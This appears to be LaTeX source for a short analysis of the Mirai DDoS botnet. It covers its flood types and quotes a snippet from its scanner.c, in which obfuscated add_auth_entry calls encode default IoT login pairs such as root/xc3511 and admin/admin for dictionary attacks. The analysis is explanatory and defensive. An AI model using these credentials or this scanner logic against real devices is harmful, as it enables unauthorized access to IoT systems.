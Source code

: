 \documentclass[12pt, letterpaper]{article}
\begin{document}
\begin{sloppypar}
\begin{flushleft}
Since Mirai is a DDOS bot, there are many spots in the code base of the bug that 
references some networking principles. The OSI (Open Systems Interconnection) model 
depicting the functions of a networking system. For now, let's take a look at how
Mirai makes use of layer 3, network. 
\begin{center}
{\includegraphics[width=0.8\textwidth]{osi-networking.png}}
\end{center}

Mirai makes use of launching GRE IP (Generic Routing Encapsulation) \& GRE ETH floods
in conjunction with SYN \& ACK floods. Another important piece of the code is the 
hardcoding/bypassing taking place that implies more security risks. 


The scanner.c file does most of the initializing and calling of source. So within this
file the first thing that caught my attention was the \verb|void scanner_init(void)| 
function. In the function we can see a series of \verb|add_auth_entry| calls that add 
in usernames as well as password to perform a dictionary attack to sign in to insecure
IoT devices. Which seems to be the biggest fix to preventing this piece of malware from
infecting your system, using a somewhat secure password!

\begin{verbatim}
// Set up passwords
// root     xc3511
add_auth_entry("\x50\x4D\x4D\x56", 
"\x5A\x41\x11\x17\x13\x13", 10);
// root     vizxv
add_auth_entry("\x50\x4D\x4D\x56", 
"\x54\x4B\x58\x5A\x54", 9);
// root     admin
add_auth_entry("\x50\x4D\x4D\x56",
"\x43\x46\x4F\x4B\x4C", 8);
// admin    admin
add_auth_entry("\x43\x46\x4F\x4B\x4C", 
"\x43\x46\x4F\x4B\x4C", 7);
// root     888888
add_auth_entry("\x50\x4D\x4D\x56", 
"\x1A\x1A\x1A\x1A\x1A\x1A", 6);
// root     xmhdipc
add_auth_entry("\x50\x4D\x4D\x56", 
"\x5A\x4F\x4A\x46\x4B\x52\x41", 5);
// root     default
add_auth_entry("\x50\x4D\x4D\x56", 
"\x46\x47\x44\x43\x57\x4E\x56", 5);
\end{verbatim}



\end{flushleft}
\end{sloppypar}
\end{document}

